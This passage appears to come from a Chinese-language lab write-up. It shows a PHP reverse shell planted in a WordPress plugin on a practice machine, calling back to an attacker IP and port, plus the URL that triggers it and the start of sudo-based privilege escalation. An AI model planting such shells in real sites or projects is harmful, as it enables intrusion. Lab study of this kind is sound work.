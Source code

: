 ```bash
-rw-r--r-- 1 www-data www-data   28 Jun  5  2014 index.php
(remote) www-data@ginger:/var/www/html/wordpress/wp-content/plugins$ cd hello-dolly-master/
(remote) www-data@ginger:/var/www/html/wordpress/wp-content/plugins/hello-dolly-master$ ls -la
total 20
drwxr-xr-x 2 www-data www-data 4096 Jun 19 03:53 .
drwxr-xr-x 6 www-data www-data 4096 Jun 19 04:14 ..
-rw-r--r-- 1 www-data www-data 2261 Jun 19 03:53 hello.php
-rw-r--r-- 1 www-data www-data  564 Jun 19 03:53 readme.txt
-rw-r--r-- 1 www-data www-data 3911 Jun 19 03:53 rev.php
(remote) www-data@ginger:/var/www/html/wordpress/wp-content/plugins/hello-dolly-master$ head rev.php 

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '192.168.10.107';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
```

这意味着之前那个我把shell夹杂到开源项目的方法也可以！

```bash
http://192.168.10.104//wordpress/wp-content/plugins/hello-dolly-master/rev.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300883.png" alt="image-20250619103053387" style="zoom:33%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@ginger:/$ sudo -l
Matching Defaults entries for www-data on ginger:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ginger:
    (ALL : ALL) NOPASSWD: /usr/bin/sl
```

运行跑了一个火车：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300884.png" alt="image-20250619103151120" style="zoom:50%;" />

```bash
(remote) www-data@ginger:/$ file /usr/bin/sl
/usr/bin/sl: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ef67270a275b66decf5098e74f47a99d35de9803, stripped
```
